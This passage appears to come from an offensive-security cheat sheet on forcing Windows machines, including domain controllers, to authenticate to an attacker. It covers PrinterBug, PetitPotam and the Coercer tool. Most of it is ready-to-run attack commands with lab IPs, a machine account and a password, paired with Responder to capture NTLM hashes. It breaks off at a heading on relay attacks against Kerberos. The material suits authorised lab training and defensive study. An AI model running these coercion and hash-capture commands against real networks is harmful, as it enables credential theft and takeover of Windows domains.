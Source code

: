 ### <mark style="color:yellow;">MS-RPRN PrinterBug</mark>

It abuses the `RpcRemoteFindFirstPrinterChangeNotificationEx` method to force a target machine to send an **SMB NTLM authentication request** to the attacker-controlled machine. It coerces domain controllers into authenticating to the attacker.

```bash
# Trigger PrinterBug
python3 printerbug.py inlanefreight/zenpc$:'pass123'@172.16.117.3 172.16.117.30

# With SMB on receive DC01 hash
python3 Responder.py -I ens192  
```

### <mark style="color:yellow;">MS-EFSR PetitPotam</mark>

**PetitPotam** exploits methods from the **Encrypting File System Remote Protocol (MS-EFSR)**, specifically `EfsRpcOpenFileRaw` and `EfsRpcEncryptFileSrv`, to coerce SMB NTLM authentication from domain-joined machines, including domain controllers.

```bash
# Trigger
python3 PetitPotam.py 172.16.117.30 172.16.117.3 -u 'zenpc$' -p 'pass123' -d inlanefreight.local

# WebDav
python3 PetitPotam.py WIN-MMRQDG2R0ZX@80/files 172.16.117.60 -u 'zenpc$' -p 'pass123'

# Poison and get hash
python3 Responder.py -I ens192
```

### <mark style="color:yellow;">Coercer</mark>

[Coercer](https://github.com/p0dalirius/Coercer) is a powerful `authentication coercion` tool that automates the abuse of 17 methods in 5 `RPC` protocols.

#### Scan Mode

```bash
Coercer scan -t 172.16.117.50 -u 'zenpc$' -p 'pass123' -d zencorp.local -v
```

#### Coerce Mode

The `coerce` mode abuses the `RPC` calls on a victim machine to coerce authentication to relay them over to relay targets.

```
Coercer coerce -t 172.16.117.50 -l 172.16.117.30 -u 'zenpc$' -p 'pass123' -d zencorp.local -v --always-continue
```

## <mark style="color:yellow;">NTLM Relay Attacks Targeting Kerberos</mark>
